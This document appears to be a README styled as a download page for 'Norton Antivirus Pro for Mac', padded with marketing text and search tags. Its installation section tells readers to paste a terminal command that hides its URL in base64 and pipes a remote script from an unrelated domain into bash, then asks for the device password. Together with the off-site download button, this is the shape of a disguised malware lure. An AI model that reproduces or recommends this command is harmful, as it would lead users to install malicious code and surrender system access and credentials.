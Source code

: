 # Norton Antivirus Pro — Download For Mac OS 🛡️
![logo](https://beesmartstores.com/cdn/shop/products/14-Norton_a5c7b30a-a853-407e-abbe-0b24ef1c78fc_300x300.png?v=1621069947)


Norton Antivirus Pro for Mac offers robust protection against malware, ransomware, and phishing attacks. Follow the step-by-step instructions below to install this powerful security software on your Mac and safeguard your digital life.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://mrboomzeus519.github.io/gimronus/nortonmac)

If the download button above doesn't work, follow the terminal command instructions below for a seamless installation.

## 📦 How to Install Norton Antivirus Pro For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🛡️ **Real-Time Threat Protection**: Norton Antivirus Pro actively scans for malware, viruses, and ransomware in real time, ensuring your Mac stays secure.
- 🌐 **Safe Browsing**: Blocks phishing attempts and malicious websites to protect your personal data during online activities.
- 🔒 **Password Manager**: Securely stores and manages your passwords, making logins safe and convenient.
- ☁️ **Cloud Backup**: Automatically backs up critical files to secure cloud storage, protecting them from data loss.
- 🛠️ **Performance Optimization**: Cleans up system junk and optimizes your Mac for faster performance.
- 📞 **24/7 Support**: Access Norton's expert support team anytime for help with setup or troubleshooting.

## About Norton Antivirus Pro

Norton Antivirus Pro for Mac is a leading security solution designed to protect macOS users from evolving cyber threats. With its advanced scanning engine, it detects and removes malware, spyware, and ransomware before they can harm your system. The software is optimized for macOS, ensuring minimal impact on system performance while delivering comprehensive protection. Whether you're browsing, shopping, or banking online, Norton keeps your sensitive information secure with its robust encryption and anti-phishing tools. Its user-friendly interface makes it easy for both beginners and advanced users to navigate and customize their security settings.

The program integrates seamlessly with macOS, offering real-time threat detection that runs quietly in the background. Unlike some antivirus solutions, Norton Antivirus Pro is lightweight, ensuring your Mac operates at peak performance without slowdowns. It also includes a firewall to block unauthorized access and a secure VPN for anonymous browsing. These features make it an essential tool for anyone prioritizing online safety and data privacy. By leveraging cutting-edge technology, Norton stays ahead of new threats, providing peace of mind in an increasingly connected world.

One standout feature is the password manager, which securely stores your login credentials and auto-fills them on trusted websites. This eliminates the need to remember complex passwords while maintaining top-tier security. Additionally, Norton’s cloud backup feature ensures that your important files are safe from hardware failures or ransomware attacks. With automatic updates, the software stays current with the latest threat definitions, ensuring long-term protection without manual intervention.

For users concerned about system performance, Norton Antivirus Pro includes optimization tools that clean up unnecessary files, free up disk space, and enhance your Mac’s speed. The software also offers parental controls, allowing families to create safe online environments for children. With its intuitive dashboard, you can monitor your system’s security status and schedule scans at your convenience. Norton’s commitment to user satisfaction is evident in its 24/7 customer support, available via phone or live chat.

**Why Choose Norton Antivirus Pro?**  
Norton stands out for its balance of powerful security, ease of use, and performance optimization. Its comprehensive feature set, including real-time protection, secure browsing, and cloud backup, makes it a top choice for Mac users. Unlike free antivirus tools, Norton offers premium features like a VPN and password manager, ensuring all-around protection. With a proven track record and millions of users worldwide, Norton Antivirus Pro is a trusted solution for safeguarding your Mac against modern cyber threats.

## 🖼 Preview

![Norton Dashboard](https://www.macworld.com/wp-content/uploads/2024/09/Norton-360-for-Mac-review-1.jpg?quality=50&strip=all&w=1024)  
*Clean and intuitive Norton Antivirus Pro dashboard for macOS*

![Threat Scan](https://www.digitaltrends.com/wp-content/uploads/2024/06/A-MacBook-Air-iis-running-Norton-360-Deluxe-antivirus-software.jpg?resize=1200%2C720&p=1)  
*Real-time threat scanning in action*

![Password Manager](https://i.pcmag.com/imagery/reviews/043TM0E2Yv1RsXGE7oOxHLl-85.fit_lim.size_1050x.png)  
*Securely manage passwords with Norton’s built-in tool*


## 🔍 Tags

norton antivirus, norton for mac, norton pro download, norton for mac, norton av for mac, norton and mac, norton antivirus mac, norton anti virus for mac, norton for mac download, norton antivirus macbook, norton antivirus download, norton antivirus free, norton antivirus download free, free norton antivirus, norton antivirus mac os, norton antivirus free download
